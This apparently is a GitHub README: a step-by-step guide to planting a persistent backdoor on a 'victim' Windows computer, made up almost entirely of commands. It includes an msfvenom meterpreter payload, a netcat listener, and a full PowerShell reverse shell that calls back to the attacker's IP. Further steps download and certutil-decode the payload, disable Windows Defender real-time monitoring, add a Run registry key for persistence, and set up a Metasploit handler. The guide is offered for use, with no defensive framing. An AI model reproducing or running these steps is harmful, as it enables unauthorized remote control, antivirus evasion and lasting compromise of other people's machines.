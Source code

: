 
## Create Backdoor
```
msfvenom -p windows/meterpreter/reverse_https lhost=[your ip] lport=[your port]  -f exe -o backdoor.exe
```
## Encode Backdoor
Go to [Here](https://www.base64encode.org) to Encode Backdoor

## Netcat
``` bash
nc -lvnp [Your port]
```
## Victim
Run this in Victim Computer
``` powershell
powershell -nop -W hidden -noni -ep bypass -c "$TCPClient = New-Object Net.Sockets.TCPClient('[your ip]', [your port]);$NetworkStream = $TCPClient.GetStream();$StreamWriter = New-Object IO.StreamWriter($NetworkStream);function WriteToStream ($String) {[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};$StreamWriter.Write($String + 'SHELL> ');$StreamWriter.Flush()}WriteToStream '';while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()"
```
## Make Directory
Make Directory to save backdoor
``` bash
mkdir c:\Users\[User_name]\AppData\LocalLow\Temp
```
## Use python to make server

``` bash
python -m http.server
```
## Download String base64 backdoor
Download String From Your Server Python
``` powershell
(New-Object System.Net.WebClient).DownloadString("http://example.com/file-encode.txt") > file-encoded.txt
```
## Disable Windows Defender
```
Set-MpPreference -DisableRealtimeMonitoring $true
```
## Ddecode Base64

``` powershell
certutil -decode c:\Users\[User Name]\AppData\LocalLow\Temp\file-encode.txt c:\Users\[User Name]\AppData\LocalLow\Temp\decode.exe
```
## Create Regkey
Create a Regkey to execute Backdoor when start Windows 
``` powershell
New-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run -Name "Sys" -Value "c:\Users\[User Name]\AppData\LocalLow\Temp\decode.exe" -PropertyType "String"
```
## Msfconsole
Run msfconsole

- Use exploit handler
```
use exploit/multi/handler
```
- Set Payload
```
set payload windows/meterpreter/reverse_https
```
- Set Lhost
```
set lhost [your ip] 
```
- Set lport
```
set lport [your port]
```
- Run
```
run 
```
## Unlock Backdoor
```
Unblock-File -Path c:\Users\[User Name]\AppData\LocalLow\Temp\decode.exe
```
## Execute Backdoor
```
./decode.exe
```
